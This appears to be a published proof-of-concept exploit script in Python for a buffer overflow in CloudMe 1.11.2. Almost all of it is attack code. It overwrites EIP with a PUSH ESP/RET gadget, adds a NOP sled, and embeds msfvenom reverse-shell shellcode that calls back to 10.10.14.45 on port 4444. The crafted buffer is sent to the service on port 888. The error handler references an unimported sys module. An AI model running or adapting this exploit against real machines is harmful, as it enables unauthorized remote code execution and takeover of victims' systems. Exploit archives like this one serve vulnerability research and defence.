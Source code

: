 ```
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.45 LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -f python

payload =  b""
payload += b"\xda\xc9\xd9\x74\x24\xf4\x58\x2b\xc9\xbb\xca\x85\xf5"
payload += b"\xb0\xb1\x52\x31\x58\x17\x83\xe8\xfc\x03\x92\x96\x17"
payload += b"\x45\xde\x71\x55\xa6\x1e\x82\x3a\x2e\xfb\xb3\x7a\x54"
payload += b"\x88\xe4\x4a\x1e\xdc\x08\x20\x72\xf4\x9b\x44\x5b\xfb"
payload += b"\x2c\xe2\xbd\x32\xac\x5f\xfd\x55\x2e\xa2\xd2\xb5\x0f"
payload += b"\x6d\x27\xb4\x48\x90\xca\xe4\x01\xde\x79\x18\x25\xaa"
payload += b"\x41\x93\x75\x3a\xc2\x40\xcd\x3d\xe3\xd7\x45\x64\x23"
payload += b"\xd6\x8a\x1c\x6a\xc0\xcf\x19\x24\x7b\x3b\xd5\xb7\xad"
payload += b"\x75\x16\x1b\x90\xb9\xe5\x65\xd5\x7e\x16\x10\x2f\x7d"
payload += b"\xab\x23\xf4\xff\x77\xa1\xee\x58\xf3\x11\xca\x59\xd0"
payload += b"\xc4\x99\x56\x9d\x83\xc5\x7a\x20\x47\x7e\x86\xa9\x66"
payload += b"\x50\x0e\xe9\x4c\x74\x4a\xa9\xed\x2d\x36\x1c\x11\x2d"
payload += b"\x99\xc1\xb7\x26\x34\x15\xca\x65\x51\xda\xe7\x95\xa1"
payload += b"\x74\x7f\xe6\x93\xdb\x2b\x60\x98\x94\xf5\x77\xdf\x8e"
payload += b"\x42\xe7\x1e\x31\xb3\x2e\xe5\x65\xe3\x58\xcc\x05\x68"
payload += b"\x98\xf1\xd3\x3f\xc8\x5d\x8c\xff\xb8\x1d\x7c\x68\xd2"
payload += b"\x91\xa3\x88\xdd\x7b\xcc\x23\x24\xec\xf9\xb9\x28\xc1"
payload += b"\x95\xbf\x34\x08\x3a\x49\xd2\x40\xd2\x1f\x4d\xfd\x4b"
payload += b"\x3a\x05\x9c\x94\x90\x60\x9e\x1f\x17\x95\x51\xe8\x52"
payload += b"\x85\x06\x18\x29\xf7\x81\x27\x87\x9f\x4e\xb5\x4c\x5f"
payload += b"\x18\xa6\xda\x08\x4d\x18\x13\xdc\x63\x03\x8d\xc2\x79"
payload += b"\xd5\xf6\x46\xa6\x26\xf8\x47\x2b\x12\xde\x57\xf5\x9b"
payload += b"\x5a\x03\xa9\xcd\x34\xfd\x0f\xa4\xf6\x57\xc6\x1b\x51"
payload += b"\x3f\x9f\x57\x62\x39\xa0\xbd\x14\xa5\x11\x68\x61\xda"
payload += b"\x9e\xfc\x65\xa3\xc2\x9c\x8a\x7e\x47\xbc\x68\xaa\xb2"
payload += b"\x55\x35\x3f\x7f\x38\xc6\xea\xbc\x45\x45\x1e\x3d\xb2"
payload += b"\x55\x6b\x38\xfe\xd1\x80\x30\x6f\xb4\xa6\xe7\x90\x9d"


overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```